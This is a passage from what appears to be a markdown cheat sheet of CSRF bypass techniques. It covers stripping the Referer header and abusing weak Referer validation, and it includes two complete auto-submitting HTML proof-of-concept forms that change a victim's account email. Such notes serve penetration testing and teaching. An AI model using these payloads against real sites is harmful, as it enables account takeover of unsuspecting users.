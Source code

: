    3) An attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the `Referer` header in the resulting request.

         by using ~ `<meta name="referrer" content="never">`

   4) The whole CSRF poc will ...
   
           <html>
           <!-- CSRF PoC - generated by Burp Suite Professional -->
           <meta name="referrer" content="never">
           <body>
           <script>history.pushState('', '', '/')</script>
             <form action="https://abc.target.com/my-account/change-email" method="POST">
               <input type="hidden" name="email" value="email&#64;email&#46;com" />
               <input type="submit" value="Submit request" />
             </form>
             <script>
               document.forms[0].submit();
             </script>
           </body>
         </html>   
---
### 10) CSRF with broken Referer validation - ###

   1) Sometime applications only verify specific part of the domain in the `Referer` header.
   2) The website seems to accept any Referer header as long as it contains the expected domain somewhere in the string., So in this case we can inject our arbitrary `Referer` header like : 

         - `Referer: https://arbitrary-incorrect-domain.net?abc.example.com`

         In the above case `abc.example.com` is our testing domain.

   3) Many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request we should includ `Referrer-Policy: unsafe-url` HTTP header in our malicious script.

   4) CSRF poc will ..

              <html>
              <!-- CSRF PoC - generated by Burp Suite Professional -->
              <body>
              <script>history.pushState('', '', '/?abc.example.com/')</script>
                <form action="https://abc.example.com/my-account/change-email" method="POST">
                  <input type="hidden" name="email" value="pwned&#64;email&#46;com" />
                  <input type="submit" value="Submit request" />
                </form>
                <script>
                  document.forms[0].submit();
                </script>
              </body>
            </html>  
---
---

